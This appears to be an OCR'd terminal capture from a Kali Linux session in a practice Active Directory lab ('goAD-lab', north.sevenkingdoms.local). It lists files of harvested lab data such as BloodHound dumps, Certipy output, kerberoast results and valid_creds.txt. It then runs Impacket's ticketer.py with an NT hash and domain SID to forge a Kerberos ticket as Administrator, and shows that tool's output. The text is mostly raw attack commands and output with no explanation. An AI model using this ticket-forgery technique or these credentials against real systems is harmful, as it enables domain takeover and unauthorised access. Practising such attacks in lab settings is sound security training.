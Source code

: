 20250827171724\_users.json       20250828092950\_gpos.json        encryption.key               spider\_results.txt  
20250827171730\_Certipy.json     20250828092950\_groups.json      encrypt.ps1                  targets.txt  
20250827171730\_Certipy.txt      20250828092950\_ous.json         ext-pos-cme.py               Test.txt  
20250827171730\_Certipy.zip      20250828092950\_users.json       fast\_tcp\_scan.gnmap          users.txt  
20250827173104\_computers.json   20250828093002\_Certipy.json     fast\_tcp\_scan.nmap           user.txt  
20250827173104\_containers.json  20250828093002\_Certipy.txt      fast\_tcp\_scan.xml            valid\_creds.txt  
20250827173104\_domains.json     20250828093002\_Certipy.zip      fix-2.sh                     winPEASx64.exe  
20250827173104\_gpos.json        20250828161055\_bloodhound       fix.sh                       WINTERFELL.north.sevenkingdoms.local.ccache  
20250827173104\_groups.json      20250828161055\_bloodhound.zip   hosts.txt  
20250827173104\_ous.json         20250828161826\_computers.json   kerberoast.txt  
20250827173104\_users.json       20250828161826\_containers.json  lab02.ovpn  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ rm WINTERFELL.north.sevenkingdoms.local.ccache                                                      
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ ticketer.py \-nthash 8ee4574a2323989e64eb21418a2e69ae \-domain north.sevenkingdoms.local \-domain-sid S-1-5-21-2333213469-3384005324-1178089573 \-user Administrator WINTERFELL.north.sevenkingdoms.local  
/home/kali/.venvs/cme/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg\_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg\_resources.html. The pkg\_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools\<81.  
  import pkg\_resources  
Impacket v0.12.0 \- Copyright Fortra, LLC and its affiliated companies 

\[\*\] Creating basic skeleton ticket and PAC Infos  
/home/kali/.venvs/cme/bin/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).  
  aTime \= timegm(datetime.datetime.utcnow().timetuple())  
\[\*\] Customizing ticket for north.sevenkingdoms.local/WINTERFELL.north.sevenkingdoms.local  
/home/kali/.venvs/cme/bin/ticketer.py:600: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).  
  ticketDuration \= datetime.datetime.utcnow() \+ datetime.timedelta(hours=int(self.\_\_options.duration))  
/home/kali/.venvs/cme/bin/ticketer.py:718: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).  
  encTicketPart\['authtime'\] \= KerberosTime.to\_asn1(datetime.datetime.utcnow())  
/home/kali/.venvs/cme/bin/ticketer.py:719: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).  
  encTicketPart\['starttime'\] \= KerberosTime.to\_asn1(datetime.datetime.utcnow())  
\[\*\]     PAC\_LOGON\_INFO  
\[\*\]     PAC\_CLIENT\_INFO\_TYPE  
\[\*\]     EncTicketPart  
/home/kali/.venvs/cme/bin/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).  
  encRepPart\['last-req'\]\[0\]\['lr-value'\] \= KerberosTime.to\_asn1(datetime.datetime.utcnow())  
\[\*\]     EncAsRepPart  
\[\*\] Signing/Encrypting final ticket  
\[\*\]     PAC\_SERVER\_CHECKSUM  
\[\*\]     PAC\_PRIVSVR\_CHECKSUM  
\[\*\]     EncTicketPart  